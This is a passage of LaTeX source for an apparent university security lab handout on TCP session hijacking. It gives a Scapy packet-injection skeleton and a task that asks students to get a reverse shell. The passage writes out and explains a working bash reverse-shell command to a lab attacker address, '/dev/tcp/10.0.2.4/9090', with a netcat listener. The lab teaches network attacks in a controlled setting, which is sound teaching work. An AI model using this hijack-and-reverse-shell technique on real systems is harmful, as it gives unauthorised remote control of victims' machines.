fields that need to be set are listed in Listing~\ref{tcp:list:netwox40}.


In the \texttt{netwox} command above, the \texttt{tcp-data} part only 
takes hex data. If we want to inject a command string, which is typically represented 
as a human-readable ASCII string, we need to convert it into  a hex string. 
There are many ways to do that, but we will just use a very simple command in Python. 
In the following, we convert an ASCII string \texttt{"Hello World"} to
a hex string (the quotation marks are not included).

\begin{lstlisting}
$ python
>>> "Hello World".encode("hex")
'48656c6c6f20576f726c64'
\end{lstlisting}


\paragraph{Using Scapy.} Please also use Scapy to conduct the TCP Session Hijacking attack.
A skeleton code is provided in the following (you need to replace each
\texttt{@@@@} with an actual value):


\begin{lstlisting}
#!/usr/bin/python
from scapy.all import *

ip  = IP(src="@@@@", dst="@@@@")
tcp = TCP(sport=@@@@, dport=@@@@, flags="@@@@", seq=@@@@, ack=@@@@)
data = "@@@@"
pkt = ip/tcp/data
ls(pkt)
send(pkt,verbose=0)
\end{lstlisting}




% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 5: Creating Reverse Shell using TCP Session Hijacking}

When attackers are able to inject a command to the victim's machine using
TCP session hijacking, they are not interested in running one simple
command on the victim machine; they are interested in running many
commands. Obviously, running these commands all through TCP session
hijacking is inconvenient. What attackers want to achieve is to use the
attack to set up a back door, so they can use this
back door to conveniently conduct further damages.

A typical way to set up back doors is to run a reverse shell from the
victim machine to give the attack the shell access to the victim machine.
Reverse shell is a shell process running on a remote machine, connecting
back to the attacker's machine. This gives an attacker a convenient way to
access a remote machine once it has been compromised. 


In the following, we will show how we can set up a reverse shell if we can
directly run a command on the victim machine (i.e. the server machine). 
In the TCP session hijacking attack, attackers cannot directly run a
command on the victim machine, so their jobs is to run a reverse-shell
command through the session hijacking attack. 
In this task, students need to demonstrate that they can achieve this goal.



\begin{figure}[htb]
\centering
\subfigure[Use \texttt{netcat} to listen to connection]
{
  \centering
  
\includegraphics[width=.95\textwidth]{\tcpFigs/reverseshell_attacker.png}
  \label{tcp:fig:reverse_shell_A}
}
\subfigure[Run the reverse shell]
{
  \centering
  
\includegraphics[width=.95\textwidth]{\tcpFigs/reverseshell_server.png}
  \label{tcp:fig:reverse_shell_B}
}
\caption{Reverse shell connection to the listening \texttt{netcat} process}
\label{tcp:fig:reverse_shell}
\end{figure}


To have a \texttt{bash} shell on a remote machine connect back to the attacker's machine, the
attacker needs a process waiting for some connection on a given port. In this example, we will
use \texttt{netcat}. This program allows us to specify a port
number and can listen for a connection on that port.
In Figure~\ref{tcp:fig:reverse_shell_A}, \texttt{netcat}~(\texttt{nc} for short) is used
to listen for a connection on port 9090.
In Figure~\ref{tcp:fig:reverse_shell_B}, the \texttt{/bin/bash} command represents the command that
would normally be executed on a compromised server. This command has the following pieces:

\begin{itemize}
\item \texttt{"/bin/bash -i"}: \texttt{i} stands for interactive, meaning that the shell must be
  interactive (must provide a shell prompt)

\item \texttt{"> /dev/tcp/10.0.2.4/9090"}: This causes the output (\texttt{stdout}) of the shell
  to be redirected to the tcp connection to \texttt{10.0.2.4}'s port \texttt{9090}.
  The output \texttt{stdout} is represented by file descriptor number~1.

\item \texttt{"0<\&1"}: File descriptor 0 represents the standard input (\texttt{stdin}). This causes
  the  \texttt{stdin} for the shell to be obtained from the tcp connection.

\item \texttt{"2>\&1"}: File descriptor 2 represents standard error \texttt{stderr}. This
  causes the error output to be redirected to the tcp connection.
\end{itemize}

In summary, \texttt{"/bin/bash -i > /dev/tcp/10.0.2.4/9090 0<\&1 2>\&1"} starts a
\texttt{bash} shell, with its input coming from a tcp connection, and its standard
and error outputs being
redirected to the same tcp connection. In Figure~\ref{tcp:fig:reverse_shell_A}, when the \texttt{bash}
shell command is executed on \texttt{10.0.2.8}, it connects back to the \texttt{netcat} process
started on \texttt{10.0.2.4}. This is confirmed via the \texttt{"Connection 10.0.2.8 accepted"}
message displayed by \texttt{netcat}.

The shell prompt obtained from the connection is now connected to the \texttt{bash} shell. This
can be observed from the difference in the current working directory (printed via
\texttt{pwd}). 
Before the connection was established, the \texttt{pwd} returned
\texttt{/home/seed}. Once \texttt{netcat} is connected to \texttt{bash},  \texttt{pwd} in the
new shell returns \texttt{/home/seed/Documents} (directory corresponding to where
\texttt{/bin/bash} is started from). 
We can also observe the IP address displayed in the shell prompt
is also changed to 10.0.2.8, which is the same as that on the server
machine.
The output from \texttt{netstat} shows the established
connection.

The description above shows how you can set up a reverse shell if you have
the access to the target machine, which is the \texttt{telnet} server in
our setup, but in this task, you do not have such an access. Your task is 
to launch an TCP session hijacking attack on an existing \texttt{telnet}
session between a user and the target server. You need to inject your
malicious command into the hijacked session, so you can get a reverse
shell on the target server. You can use either Netwox or Scapy for this task (using Scapy is
more convenient).




% *******************************************
% SECTION
% ******************************************* 
\section{Lab Report}

\seedsubmission


\end{document}
